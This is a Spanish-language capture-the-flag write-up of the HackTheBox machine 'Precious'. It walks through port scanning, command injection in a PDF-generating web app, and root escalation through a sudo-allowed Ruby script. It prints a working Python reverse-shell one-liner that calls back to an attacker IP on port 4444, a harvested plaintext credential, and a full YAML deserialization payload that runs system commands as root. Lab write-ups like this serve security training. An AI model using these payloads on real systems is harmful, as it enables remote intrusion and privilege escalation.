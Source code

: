 ```yaml
---
title: "Precious - HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories:
  - HackTheBox
  - Easy
  - Writeup
tags:
  - IR
  - Bruteforce
  - Project

---
```


# Enumeración

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.

![Webpage1](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226114005541.png)

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```

![Website2](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226115058616.png)

Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.

![Propiedadespdf](./../assets/images/images/Machines/2023-02-25-Precious-HackTheBox-Writeup/image-20230226115632401.png)

Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

